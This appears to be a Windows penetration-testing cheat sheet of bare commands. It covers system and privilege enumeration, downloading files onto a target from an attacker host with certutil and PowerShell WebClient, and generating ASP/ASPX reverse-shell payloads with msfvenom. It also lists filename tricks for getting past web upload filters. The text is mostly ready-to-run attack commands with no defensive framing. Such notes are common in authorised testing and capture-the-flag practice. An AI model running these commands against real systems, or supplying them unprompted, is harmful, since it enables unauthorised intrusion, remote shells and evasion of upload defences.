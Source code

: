 OS architecture 

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

privileges information

```cmd
whoami /priv
whoami /all
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<target ip>/<file>" C:\Users\<User Account>\Desktop\<file>
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
#   try filename "rev.aspx..... .. . . ."
#   try filename "rev.aspx.png"
#   try web.config (File_Upload_Bypass.md)
```

